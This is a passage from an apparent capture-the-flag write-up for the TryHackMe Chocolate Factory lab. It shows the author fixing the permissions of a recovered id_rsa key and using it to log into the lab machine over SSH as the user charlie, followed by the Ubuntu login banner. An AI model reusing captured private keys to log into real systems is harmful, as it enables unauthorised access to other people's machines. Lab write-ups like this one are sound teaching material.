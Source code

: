 after that we changed the permission of that file  , and then we could be able to ssh charlie user successfully:

```bash
└──╼ $chmod 600 id_rsa 
┌─[itatshi@parrot]─[~/THM/Chocolate_Factory]
└──╼ $ssh -i id_rsa charlie@10.10.88.29
The authenticity of host '10.10.88.29 (10.10.88.29)' can't be established.
ECDSA key fingerprint is SHA256:gd9u+ZN0RoEwz95lGsM97tRG/YPtIg9MwOxswHac8yM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.88.29' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan 20 22:29:54 UTC 2021

  System load:  0.0               Processes:           597
  Usage of /:   43.6% of 8.79GB   Users logged in:     0
  Memory usage: 61%               IP address for eth0: 10.10.88.29
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Oct  7 16:10:44 2020 from 10.0.2.5
Could not chdir to home directory /home/charley: No such file or directory
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

charlie@chocolate-factory:/$ 
```
